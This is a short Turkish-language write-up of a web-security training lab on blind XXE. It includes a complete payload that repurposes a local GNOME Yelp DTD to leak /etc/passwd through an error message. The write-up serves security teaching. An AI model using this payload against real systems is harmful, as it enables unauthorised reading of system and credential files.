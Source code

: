 ## Lab-9 Exploiting XXE to retrieve data by repurposing a local DTD

Bu laboratuvardaki “Check Stock” fonksiyonu XML inputlarını parse etmektedir fakat herhangi bir sonuç göstermemektedir. Lab’ın tamamlanması için /etc/passwd dosyasının içeriğini gösteren bir hata mesajı tetiklenmelidir. 

GNOME masaüstü ortamı kullanan sistemlerde genellikle /usr/share/yelp/dtd/docbookx.dtd adtesinde ISOamso adında bir entity içeren DTD bulunmaktadır.

Aşağıdaki payload Yelp DTD’yi içe aktaracak ardından ISOamso entity’yi yeniden tanımlayarak /etc/passwd dosyasını içeren bir hata mesajı üretecektir.

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/9/1.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/9/2.png){: .align-center}
